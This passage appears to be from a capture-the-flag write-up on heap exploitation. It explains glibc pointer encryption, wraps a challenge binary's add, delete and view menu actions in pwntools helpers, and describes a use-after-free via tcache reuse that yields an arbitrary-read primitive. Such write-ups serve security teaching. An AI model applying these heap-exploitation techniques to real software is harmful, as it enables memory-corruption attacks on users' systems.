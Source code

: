 Furthermore, new glibc versions don't store function pointers directly
anymore, but encrypted with a secret key created on startup (similar to stack
canaries). We will later on see what this means for our exploit.

# Exploitation  
## Talking with the binary  
To make our life easier, let's wrap each action from the binary into a python
function as the basic building blocks of our exploit:  
```python  
chunk_idx = 0

def add(content, l=None):  
   global chunk_idx  
   assert chunk_idx < 32  
   if not l:  
       l = len(content)  
   io.sendlineafter(b'> ', b'1')  
   io.sendlineafter(b'chunk size: ', str(l).encode())  
   io.sendafter(b'chunk data: ', content)  
   chunk_idx += 1

def delete(idx):  
   io.sendlineafter(b'> ', b'2')  
   io.sendlineafter(b"chunk id: ", str(idx).encode())

def view(idx):  
   io.sendlineafter(b'> ', b'3')  
   io.sendlineafter(b'chunk id: ', str(idx).encode())  
   response = io.recvuntil(b'1. Add')[:-6]  
   assert response[:3] != 'b[-]', response  
   return response  
```

## Basic exploit primitives  
### Read bytes from an arbitrary address  
So what can we do with this vulnerability? Remember, a deleted `chunk_t` is
`freed`, which means that this address can be returned for another allocation.
If we manage to write arbitrary content at this location, we fill the
`chunk_t` fields how we want.

Combine this with the `view` action, we can read from anywhere we want (just
overwrite the `length` and `ptr` fields and set `used` to 1).  
So, how can we do this? If we delete a chunk, the corresponding allocations
are put into the `tcache` (because of their size). If the content length was
24 (the same as `sizeof(chunk_t)`), then the tcache would look like this:  
```  
+----------+    +----------+  
|          |    |          |  
| chunk_t  | -> | contents |  
|          |    |          |  
+----------+    +----------+  
```
